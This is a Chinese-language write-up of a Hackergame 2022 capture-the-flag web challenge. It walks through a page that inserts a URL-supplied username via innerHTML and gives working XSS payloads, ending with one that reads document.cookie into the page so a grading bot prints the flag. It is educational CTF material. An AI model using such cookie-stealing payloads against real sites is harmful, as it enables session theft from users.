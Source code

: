 # 微积分计算小练习

题解作者：[taoky](https://github.com/taoky)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：200

小 X 作为某门符号计算课程的助教，为了让大家熟悉软件的使用，他写了一个小网站：上面放着五道简单的题目，只要输入姓名和题目答案，提交后就可以看到自己的分数。

[点击此链接访问练习网站](http://202.38.93.111:10056/?token={token})

想起自己前几天在公众号上学过的 Java 设计模式免费试听课，本着前后端离心（咦？是前后端离心吗？还是离婚？离。。离谱？总之把功能能拆则拆就对啦）的思想，小 X 还单独写了一个程序，欢迎同学们把自己的成绩链接提交上来。

总之，因为其先进的设计思想，需要同学们做完练习之后手动把成绩连接贴到这里来：

[点击此链接提交练习成绩 URL](http://202.38.93.111:10057/?token={token})

点击下方的「打开/下载题目」按钮，查看接收成绩链接的程序的源代码。

提示：

1. 不必输入自己真实的姓名；
2. 根据比赛规则，**请勿分享自己的链接，或点击其他人分享的链接**。

[打开/下载题目](src/bot/bot.py)

## 题解

这可能是 hackergame 历史以来第一道 XSS 题目。和 @volltin 聊天的时候，我说「我们整一道简单的 XSS 吧！」，于是当时讨论出的场景是「一个成绩单，名字可以随便填来 XSS」，最终我在写实现实际落地的时候场景换成了微积分小测验。

本题不要求选手掌握与微积分或符号计算软件有关的任何知识（事实上微积分很多东西我也差不多忘了，这五道题是我随便找的，然后拿 sympy 验算了一下结果）。

打开题目，先随便填，然后看结果页面的源代码：

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link rel="stylesheet" href="/static/bootstrap/css/bootstrap.min.css">
    <title>微 积 分 计 算 小 练 习</title>
  </head>
  <body>
    <div class="container px-3 py-3">
        <h1>练习成绩页面</h1>
        <p id="greeting">您好，[[ username ]]！</p>
        <p id="score">您在练习中获得的分数为 <b>[[ score ]]</b>/100。</p>

        <p><a href="#" id="copy">点击此链接，将页面 URL 复制到剪贴板。</a>你可返回平台，在「提交练习成绩 URL」处提交这里复制的 URL。</p>
        <br>
        <a href="/">再试一次</a>
    </div>
    <script>
        function click() {
            var url = window.location.href;
            var input = document.createElement('input');
            input.setAttribute('readonly', 'readonly');
            input.setAttribute('value', url);
            document.body.appendChild(input);
            input.select();
            if (document.execCommand('copy')) {
                document.execCommand('copy');
                alert('已复制到剪贴板');
            }
            document.body.removeChild(input);
        }
        
        document.querySelector("#copy").addEventListener("click", click);

        const queryString = window.location.search;
        const urlParams = new URLSearchParams(queryString);
        const result = urlParams.get('result');
        const b64decode = atob(result);
        const colon = b64decode.indexOf(":");
        const score = b64decode.substring(0, colon);
        const username = b64decode.substring(colon + 1);

        document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
        document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";

    </script>
  </body>
</html>
```

阅读可以看到它的逻辑：

1. [`window.location.search`](https://developer.mozilla.org/en-US/docs/Web/API/Location/search) 获取了 URL 中的查询字符串，然后由 [`URLSearchParams`](https://developer.mozilla.org/en-US/docs/Web/API/URLSearchParams) 解析；
2. 取出的 `result` 使用 `atob()` 解码 base64 字符串，然后以冒号 `:` 分割，前者为分数，后者为用户名；
3. 最后，修改 ID 为 `greeting` 和 `score` 的两个元素的内部 HTML，可以注意到，**这里的操作就是直接拼接了字符串**。

**直接拼接 HTML 是非常非常危险的事情，因为 HTML 中可以包含任意的 JavaScript 脚本命令。通过 XSS，攻击者可以以你的身份做任何事情**。作为 XSS 最经典的例子，我们可以试试把用户名设置为 `<script>alert(1)</script>`：

![innerHTML](assets/innerhtml.png)

诶，好像没有弹窗嘛！这是因为，标准规定，[使用 `innerHTML` 插入的 `<script>` 标签不会被执行](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)。但是这不代表 `innerHTML` 就安全了，让我们微调一下我们的 payload 到 `<img src=a onerror="alert(1)">`（图片无法加载的时候，会执行 `onerror` 里面的 JS 脚本）：

![img onerror](assets/img_onerror.png)

我们的 `alert(1)` 脚本执行了！

接下来就是回到「提交练习成绩 URL」这里，把我们构造的 payload 喂给 bot（初见题目的时候一般都会点击打开题目的按钮，这时候会下载一个 bot.py）。这里可能「经验丰富」的选手会有思维定势，会写出把 `document.cookie` 发送到自己的服务器的 payload——结果发现环境压根没网。解答的关键在：

```python
try:
    greeting = driver.execute_script(f"return document.querySelector('#greeting').textContent")
    score = driver.execute_script(f"return document.querySelector('#score').textContent")
except selenium.common.exceptions.JavascriptException:
    print('JavaScript Error: Did you give me correct URL?')
    exit(1)

print("OK. Now I know that:")
print(greeting)
print(score)
```

这里会把 ID 为 greeting 和 score 的元素的内容显示出来。所以我们把 flag 写到里面就行了。设置用户名为 `<img src=a onerror='var a=document.cookie;document.querySelector("#score").textContent=a;'>`，然后提交得到的 URL 再扔给 bot 就好了。

### 致谢

本题参考了 PKU-GeekGame v1 的「Q小树洞的一大步」一题的有关源代码文件（[writeup](https://github.com/PKU-GeekGame/geekgame-1st/tree/master/writeups/xmcp#q%E5%B0%8F%E6%A0%91%E6%B4%9E%E7%9A%84%E4%B8%80%E5%A4%A7%E6%AD%A5-webhole)），在此表示感谢。相关文件以 BSD 协议授权。
